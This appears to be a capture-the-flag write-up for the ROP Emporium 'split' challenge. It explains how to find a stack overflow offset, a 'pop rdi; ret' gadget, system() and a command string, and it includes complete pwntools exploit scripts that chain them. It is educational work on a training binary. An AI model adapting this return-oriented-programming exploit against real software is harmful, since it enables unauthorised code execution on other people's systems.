


# split

Link: https://ropemporium.com/challenge/split.html

Description: *That useful string "/bin/cat flag.txt" is still present in this binary, as is a call to system(). It's just a case of finding them and chaining them together to make the magic happen.*

--------------------------


## 1. Calculating RIP overwrite offset

First we check if the offset is different than in the previous challenge, "ret2win". It seems it is still 40, with 41 characters we see only one "41" in RIP registry:




## 2. Studying the binary

Then we find the gadget "pop rdi; ret" to set a value in registry RDI. This gadget is located in address "0x0000000000400883":


We can find the system address with objdump, located in "0x00000000004005e0":


Next, we need the address of the string "/bin/cat flag.txt". We can do this using GEF, and finding the address is "0x601060":

```
gdb -q ./split
break main
r
grep "/bin/cat flag.txt"
``` 


## 3. Calling system("/bin/cat flag.txt")

The idea is calling the function *system()* (which is included in the binary) with one argument: the string "/bin/cat flag.txt". In 64 bits binaries, the first argument must be stored in RDI ([source](https://uclibc.org/docs/psABI-x86_64.pdf)).

So we will use the "pop; ret" gadget to move thhe string to RDI and then we will call *system()*, which expexts only ine argument. We will achieve this concatenating (pop rdi gadget) + (string) + (system address), with a code like this:

```
from pwn import *

context(arch='amd64', os='linux')
binary_name = 'split'
p = process('./'+binary_name)

junk = "A"*40
elf =  ELF(binary_name)
rop =  ROP(elf)

pop_rdi =  0x400883
system =   0x4005e0
cat_flag = 0x601060
rop = junk + p64(pop_rdi) + p64(cat_flag) + p64(system)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```


And it seems to work:



Now we will change the calculation of some addresses making it automatic with Python:

```
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0] #0x0000000000400883
system = elf.sym["system"] #0x00000000004005e0
cat_flag = next(elf.search('/bin/cat flag.txt')) # 0x601060
rop = junk + p64(pop_rdi) + p64(cat_flag) + p64(system)
```

## 4. Final exploit

And it still works! Final exploit:

```
from pwn import *

context(arch='amd64', os='linux')
binary_name = 'split'
p = process('./'+binary_name)

junk =    "A"*40
elf = ELF(binary_name)
rop = ROP(elf)


pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0] #0x0000000000400883
system = elf.sym["system"] #0x00000000004005e0
cat_flag = next(elf.search('/bin/cat flag.txt')) # 0x601060
rop = junk + p64(pop_rdi) + p64(cat_flag) + p64(system)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```
